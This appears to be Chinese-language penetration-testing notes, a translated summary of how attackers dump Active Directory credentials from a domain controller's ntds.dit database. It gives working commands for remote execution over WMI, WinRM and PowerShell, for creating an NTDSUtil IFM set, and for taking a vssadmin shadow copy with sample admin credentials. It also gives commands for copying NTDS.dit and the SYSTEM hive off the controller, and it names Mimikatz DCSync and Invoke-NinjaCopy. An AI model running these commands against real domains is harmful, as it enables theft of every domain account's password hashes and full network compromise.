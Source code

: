 		8. 其他 - 转储活动目录数据库(ntds.dit)凭证的方法总结
		How Attackers Dump Active Directory Database Credentials
			https://adsecurity.org/?p=2398
		[译]转储活动目录数据库凭证的方法总结 
			http://drops.xmd5.com/static/drops/pentesting-12020.html
			之前发表过两篇关于如何转储 AD 数据库凭证的文章： 
				a. 攻击者如何从一个域控制器中读取活动目录数据库(NTDS.DIT)(https://adsecurity.org/?p=451)
				b. 在 Active Directory 域中获得管理员权限的攻击方法(https://adsecurity.org/?p=2362  [译]https://xianzhi.aliyun.com/forum/topic/115)
		这里所介绍的方法需要权限提升，因为它们需要连接到域控制器转储凭据。如下：
			a. 使用 NTDSUtil 创建 IFM 抓取 DC 本地的 Ntds.dit 文件(VSS 卷影复制)
			b. 使用 VSS 卷影复制远程读取 Ntds.dit。
			c. 使用 PowerSploit 的 Invoke-NinjaCopy 远程读取 Ntds.dit(需要目标 DC 启用 PowerShell 远程管理)。
			d. 在 DC 中使用 Mimikatz 转储 Active Directory 凭据。
			e. 在 DC 中使用 Invoke-Mimikatz 转储 Active Directory 凭据。
			f. 使用 Invoke-Mimikatz 远程转储 Active Directory 凭据。
			g. 使用 Mimikatz 的 DCSync 功能远程转储 Active Directory 凭据。
			注意：如果已经发现了 Active Directory 数据库(NTDS.DIT)的副本，那么攻击者无需提升权限即可从中转储凭据。
			
		0x01 远程执行命令方式
			有几种不同的方式可以在域控制器上远程执行命令，假设它们已经有了相应的执行权限。最可靠的远程执行方法包括两种 PowerShell(利用 WinRM )和 WMI。
			WMI
			Wmic /node:COMPUTER/user:DOMAIN\USER /password:PASSWORD process call create "COMMAND"
			
			PowerShell (WMI)
			Invoke-WMIMethod -Class Win32_Process -Name Create –ArgumentList $COMMAND –ComputerName $COMPUTER -Credential $CRED
			
			WinRM
			winrs –r:COMPUTER COMMAND
			
			远程 PowerShell
			Invoke-Command –computername $COMPUTER -command { $COMMAND}
			New-PSSession -Name PSCOMPUTER –ComputerName $COMPUTER; Enter-PSSession -Name PSCOMPUTER
		
		0x01 使用 NTDSUtil 创建 IFM 抓取 DC 本地的Ntds.dit文件 (VSS 卷影复制)
			NTDSUtil一个本地运行的针对活动目录数据库(ntds.dit)的命令，并且允许为DCPromo准备IFM集。
			IFM是用于DCPromo命令中"从媒体安装"这一过程的，所以，在配置域控时就不需要通过网络从其他域控拷贝数据。
			IFM集，并且也会在c:/temp目录下生成的一份NTDS.dit附件。
			ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
			創建了temp目錄，下面会生成 ntds.dit 和 SYSTEM / SECURITY
			这个命令也可以通过 WMI 或 PowerShell 远程执行。
			
		0x02 使用 VSS 卷影副本远程读取 ntds.dit(通过 WMI or PowerShell 远程管理)
			ntds.dit我们是没法直接进行复制拷贝的，会提示文件已被占用，这个时候我们可以通过windows提供的卷影复制功能来复制被进程占用的文件(xp和server 2003以上都存在此功能)
				a. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:\vss.log"
			当 VSS 快照完成后，我们就可以从 VSS 中将 NTDS.dit 文件和 注册表中的 System hive 复制到域控制器的 C 盘中。
				b1. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID\Windows\NTDS\NTDS.dit C:\windows\temp\NTDS.dit 2>&1 > c:\vss2.log"
				b2. wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID\Windows\System32\config\SYSTEM C:\windows\temp\SYSTEM.hive 2>&1 > c:\vss2.log"
			之后就可以将域控制器中 c:\\temp 目录的文件复制到本地的计算机中。
				copy /z \\demo.local\c$\windows\temp\NTDS.dit c:\temp
				copy /z \\demo.local\c$\windows\temp\SYSTEM.hive c:\temp
			较新版本的 Windows 中 WMIC 已经有些过时了。 PowerShell 提供了 Invoke-WMIMethod cmdlet 可以执行相同的功能。
			